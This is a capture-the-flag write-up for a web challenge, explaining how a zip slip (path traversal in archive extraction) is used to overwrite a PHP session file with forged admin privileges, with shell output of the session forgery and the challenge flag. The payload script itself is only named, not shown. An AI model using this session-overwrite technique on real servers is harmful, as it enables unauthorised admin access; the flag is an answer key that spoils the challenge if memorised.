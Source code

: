 # Webhacking sliping beauty Solution

In this challange we exploit the zip slip, here you can read about it: [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).

We override the session file with admin privilege, and then we can see the flag, as wrote in the source code 
```bash
agonen@PC4:~$ php -a
Interactive shell

php > session_start();
php > echo session_id();
0tf30efgp62k6u1jm9lbmeckg7
php > $_SESSION['uid'] = 'admin';
php > echo session_encode();
uid|s:5:"admin";
php >
```

Now, all left is to create our payload:
`python3 sliping_beauty.py`, and then upload it to the server.

Lastly, let's change our session ID to the session id we achieve, for example:
`0tf30efgp62k6u1jm9lbmeckg791194204` (include the random chars).


![FLAG](./images/sliping%20beauty.png)

**Flag:** ***`FLAG{my_zip_is_sliping_beauty}`*** 

